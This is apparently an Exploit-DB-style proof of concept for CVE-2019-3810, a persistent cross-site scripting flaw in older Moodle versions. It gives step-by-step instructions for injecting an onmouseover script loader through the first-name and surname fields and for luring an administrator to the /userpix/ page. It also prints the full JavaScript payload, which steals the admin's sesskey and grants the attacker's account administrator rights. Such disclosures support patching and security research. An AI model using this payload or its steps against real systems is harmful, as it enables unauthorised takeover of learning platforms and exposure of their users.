 XSS
---

    # Exploit Title: Moodle 3.6.1 - Persistent Cross-Site Scripting (XSS)
    # Date: 04/2021
    # Exploit Author: farisv
    # Vendor Homepage: https://moodle.org/
    # Software Link: https://download.moodle.org https://github.com/moodle/moodle/archive/refs/tags/v3.6.1.zip
    # Version: Moodle < 3.6.2, < 3.5.4, < 3.4.7, < 3.1.16
    # CVE: CVE-2019-3810

    Moodle is a learning platform designed to provide educators, administrators,
    and learners with a single robust, secure and integrated system to create
    personalised learning environments.

    The following is PoC to use the XSS bug on /userpix/ (CVE-2019-3810) for
    privilege escalation from student to administrator.

    1. Upload the XSS payload [1] to pastebin or other similar service.
       Change the value of userid to your own id.
       Let's say the URL is https://pastebin.com/raw/xxxxxxxx.
    2. Login to your student account.
    3. Set first name with:
       " style="position:fixed;height:100%;width:100%;top:0;left:0" onmouseover="x=document.createElement
    4. Set surname with:
      ('script');x.src='https://pastebin.com/raw/xxxxxxxx';document.body.appendChild(x); alert('XSS')
    5. Ask the administrator to open /userpix/ page or put the link to that page
       on your post and wait.

    If successful, your account will be added as administrator.

    See the demonstration video on https://github.com/farisv/Moodle-CVE-2019-3810

    [1] XSS Payload for privilege escalation on Moodle. Change the value of userid to your id.

    var webroot = '/';
    var userid = '3';
    var sesskey = '';

    function get(path, success) {
        var xhr = new XMLHttpRequest();
        xhr.open('GET', webroot + path);
        xhr.onreadystatechange = function() {
            if (xhr.readyState > 3 && xhr.status == 200) {
                success(xhr.responseText);
            }
        };
        xhr.send();
        return xhr;
    }

    function post(path, data, success) {
        var xhr = new XMLHttpRequest();
        xhr.open('POST', webroot + path);
        xhr.onreadystatechange = function() {
            if (xhr.readyState > 3 && xhr.status == 200) {
                success(xhr.responseText);
            }
        };
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.send(encodeURI(data));
        return xhr;
    }

    function setAdmin() {
        // Assign administrator access to userid
        bpath = 'admin/roles/admins.php';
        data = "confirmadd=" + userid + "&sesskey=" + sesskey;
        post(bpath, data, function(data){});
    }

    function getSesskey(data) {
        var sesskey_find = data.indexOf('"sesskey":"');
        sesskey = data.substr(sesskey_find + 11, 10);
        setAdmin();
    }

    function payload() {
        // We can find Sesskey inside JS script in main page
        get('', getSesskey);
    }

    // Start
    payload();
